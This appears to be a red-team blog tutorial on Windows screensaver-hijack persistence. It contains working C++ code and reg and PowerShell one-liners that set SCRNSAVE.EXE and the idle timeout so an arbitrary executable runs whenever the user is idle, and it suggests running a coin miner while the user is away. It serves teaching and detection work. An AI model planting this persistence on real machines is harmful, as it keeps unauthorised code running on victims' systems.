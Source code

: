 ```yaml
---
title:  "Malware development: persistence - part 2. Screensaver hijack. C++ example."
date:   2022-04-26 10:00:00 +0600
header:
  teaser: "/assets/images/52/2022-04-27_03-07.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/52/2022-04-27_03-07.png){:class="img-responsive"}    

This post is a second part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll write about the result of my own research into another persistence trick: Abusing screensavers.    

### screensavers

Screensavers are programs that execute after a configurable time of user inactivity. This feature of Windows it is known to be abused by threat actors as a method of persistence. Screensavers are PE-files with a `.scr` extension by default and settings are stored in the following registry keys:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    
![pers](/assets/images/52/2022-04-27_03-23.png){:class="img-responsive"}    

set to `1` to enable screensaver.

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` - sets user inactivity timeout before screensaver is executed.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` - set the app path to run.    

### practical example

Let's go to look at a practical example. Let's say we have a *"malware"* from [previous](/tutorial/2022/04/20/malware-pers-1.html) part `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mwindows -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/52/2022-04-27_02-04.png){:class="img-responsive"}    

And save it to folder `Z:\\2022-04-26-malware-pers-2\`:    

![pers](/assets/images/52/2022-04-27_03-29.png){:class="img-responsive"}    

Then, let's create a script `pers.cpp` that creates registry keys that will execute our program `hack.exe` when user inactive `10` seconds:    

```cpp
/*
pers.cpp
windows low level persistense via screensaver
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/04/26/malware-pers-2.html
*/
#include <windows.h>
#include <string.h>

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-26-malware-pers-2\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry keys for timeout and app path. Registry keys can be added from the `cmd` terminal:    

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d Z:\2022-04-26-malware-pers-2\hack.exe
```

or `powershell` commands:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'Z:\2022-04-26-malware-pers-2\hack.exe'
```

but since I love to write code, I wanted to show how to do it with some lines of code.    

### demo

Let's compile our `pers.cpp` script:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/52/2022-04-27_02-06.png){:class="img-responsive"}    

Then, for the purity of experiment, first of all, check registry keys in the victim's machine and delete keys if exists:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'SCRNSAVE.EXE'
```

![pers](/assets/images/52/2022-04-27_03-43.png){:class="img-responsive"}    

![pers](/assets/images/52/2022-04-27_03-48.png){:class="img-responsive"}    

Then, run our `pers.exe` script and check again:   

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](/assets/images/52/2022-04-27_04-14.png){:class="img-responsive"}    

As you can see, new key added as expected.    
So now, check everything in action. Logout and login again and wait `10` seconds or just inactive `10` seconds:    

![pers](/assets/images/52/2022-04-27_04-13_1.png){:class="img-responsive"}    

Pwn! Everything is worked perfectly :)    

After the end of the experiment, delete the keys:    

```powershell
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'SCRNSAVE.EXE'
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](/assets/images/52/2022-04-27_04-18.png){:class="img-responsive"}    

### conclusion

The problem with this persistence trick is that the session is terminated when the user comes back and the system is not idle. However, red teams can perform their operations (something like coin miner) during the user's absence. If screensavers are disabled by group policy, this method cannot be used for persistence. Also you can block `.scr` files from being executed from non-standard locations.   

[This trick in MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/002/)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[source code in github](https://github.com/cocomelonc/2022-04-26-malware-pers-2)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
